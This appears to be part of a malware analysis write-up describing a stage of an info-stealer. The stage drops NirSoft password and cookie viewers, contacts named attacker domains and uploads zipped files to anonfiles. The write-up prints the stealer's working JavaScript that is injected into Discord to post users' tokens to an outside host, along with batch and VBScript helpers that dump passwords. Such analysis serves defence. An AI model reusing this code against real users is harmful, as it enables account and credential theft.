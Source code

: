 Drops TrkBtManServ.exe

### Stage 5 - RtkBtManServ.exe

Drops Nirsoft software for collecting information. From `Explorer.exe`. When the base64 key is used together with `RTkbtManServ.exe` It is trying to connect to `itroublvehacker.gq`. One other link found is `https://itroublvehacker.cf/dummyinfo`

`RtkBtManServ.exe" 3DdHBGXJtZaBFfP8HsYgGdL3DLw4WBuf00yKjIbZKNf6jxChJg599sEsND36Da7G/Waa8dzYrEX0/PImVXvuFvGYu0DQCHU8+Zp717y1Wfdd6HmZAvF3ddLoEF+H7rV932JJt5TduuQLzwuPrrTs6ory0pt1ozzD/8FXar83Cpg=`

Nirsoft

* Web Browser History Viewer 2.46

* ChromeCookiesView 1.65

* MZCookiesView 1.58

* Web Browser Password Viewer 2.06

* EdgeCookiesView 1.17

* OEyaTLsQMitFRVPKJJJgIFhwZlDO.dll

  


Other observations 

* Checks for IsLogging

* Checks for VirtualProtect

* Checks `SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion` for `DigitalProductId`

* Create a directory files, compress as f.zip and upload to `anonfiles[.]com`

* Copy the following code to the voice module located at `\\modules\\discord_voice\\index.js` of Discord, DiscordCanary, DiscordPTB, DiscordDevelopement. c000015.p000003 is compile.bat or compile.vbs.
  ```javascript
  var X = window.localStorage = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage;var V = JSON.stringify(X);var L = V;var C = JSON.parse(L);var strtoken = C[\"token\"];var O = new XMLHttpRequest();O.open('POST', '" + c000015.p000003 + "', false);O.setRequestHeader('Content-Type', 'application/json');O.send('{\"content\": ' + strtoken + '}');
  ```

* Creates a screenshot and saves it as a capture.png

* Create compile.bat 
  ```bash
  start %temp%\snuvcdsm.exe /stext "%temp%\%username%_Passwords.txt"
  exit
  ```

* Create compile.vbs
  ``` vbscript
  Dim fso, fName, txt,objshell,UserName,tempfolder
  Set fso = CreateObject("Scripting.FileSystemObject")
  Set tempfolder = fso.GetSpecialFolder(2)
  Set oShell = CreateObject ("Wscript.Shell")
  Dim strArgs
  strArgs = "cmd /c compile.bat"
  oShell.Run strArgs, 0, True
  ```

